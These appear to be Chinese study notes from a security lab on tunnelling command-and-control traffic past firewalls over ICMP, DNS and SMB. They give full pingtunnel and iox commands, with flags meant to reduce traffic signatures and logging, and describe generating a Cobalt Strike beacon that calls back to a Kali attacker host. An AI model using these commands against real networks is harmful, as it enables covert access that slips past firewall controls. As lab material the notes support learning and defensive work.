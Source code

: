 # 隧道技术 icmp dns

![1732452050196](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942043.png)

出网：看之间是否能通讯

​	c2常见的协议

隧道技术：绕过防火墙，实现通讯能够上线

出网就是出站----防火墙

  配置

将出站规则都开启，执行后面没有上线

![1732461696691](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942044.png)

将出站规则关闭：

![1732461815088](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942045.png)

打开icmp通讯：192.168.139.128为kali地址,与web机在同一个网段------------此时web防火墙入站和出站是开着。这里都是随便ping 只要能互相通信就行

![1732462308609](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942046.png)

关闭icmp协议: 

![1732462439111](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942047.png)
## icmp
这里的环境复现是：其中kali的ip  192.168.139.128       web :192.168.139.222       192.168.2.11

![1732523729550](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942048.png)

  上线  使用工具 pingtunnel

## ./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942049.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942050.png)

成功接收到：

![1732524956671](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942051.png)

生成2个监听器：1 、2

![1732525288157](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942052.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942053.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942054.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942055.png)

隧道一关闭、cs就掉线：

![1732526561513](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942056.png)

### dns

  使用DNS技术实现上线----使用C2自带工具。 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942058.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

  ### msb

  MSF icmp实现上线。msf的dns过时，已下架。

   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942059.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942060.png)

接收客户端传递的ICMP：

![1732531600655](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942061.png)

端口转发，创建有socks5协议 ：

![1732531373768](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942062.png)

再在web上开放一个2222端口：

![1732535373473](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942063.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。
